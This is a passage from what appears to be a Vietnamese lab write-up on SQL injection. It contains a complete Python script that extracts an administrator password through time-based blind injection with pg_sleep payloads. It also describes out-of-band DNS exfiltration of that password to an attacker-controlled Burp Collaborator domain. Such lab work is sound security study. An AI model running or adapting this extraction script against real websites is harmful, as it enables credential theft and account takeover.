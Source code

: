 ```python=
for i in range(1, 50):
    payload = f"'|| (SELECT CASE WHEN (username='administrator' AND length(password)={i}) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users)--"
    response = send_requests(payload)
    print(f"🧪 Đang thử với i = {i}", end='\r')
    if response > 2:
        length_pw = i
        print(f"✅ Độ dài password: {i}")
        break

password = ""
for i in range(1, length_pw + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2
        payload = f"'||(SELECT CASE WHEN (username='administrator' AND ascii(SUBSTR(password,{i},1)) > {mid}) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users)--"
        response = send_requests(payload)
        if response > 2:
            left = mid + 1 
        else: 
            right = mid - 1
    password += chr(left) 
    sys.stdout.write(f"\r✅ Password là: {password}")
    sys.stdout.flush()
``` 
![image](https://hackmd.io/_uploads/H1s-tK38xg.png)

## LAB15 

Lab này là một kỹ thuật `out-of-band` của SQLi. Mục tiêu của lab này là gửi 1 request đến 1 DNS mà do attacker đã dựng sẵn. Ở đây mình dùng Burp Collaborator. 

Mình tạo ra 1 domain trước. 

![image](https://hackmd.io/_uploads/BkMN6Y28ee.png)

Và sau đó, mình thử các payload để xác định loại DB mà payload đó phải được gửi tới domain đã dựng. 

![image](https://hackmd.io/_uploads/Hyu4J9hUxx.png)

![image](https://hackmd.io/_uploads/rkrSk92Uge.png)

## LAB16 

Lab này giống lab trên cũng dùng kỹ thuật out-of-band nhưng mình phải trích xuất lấy dữ liệu. 

Cũng làm tương tự nhưng thêm payload vào để trích xuất password của administrator vào phần đầu của domain để thực hiện query. 
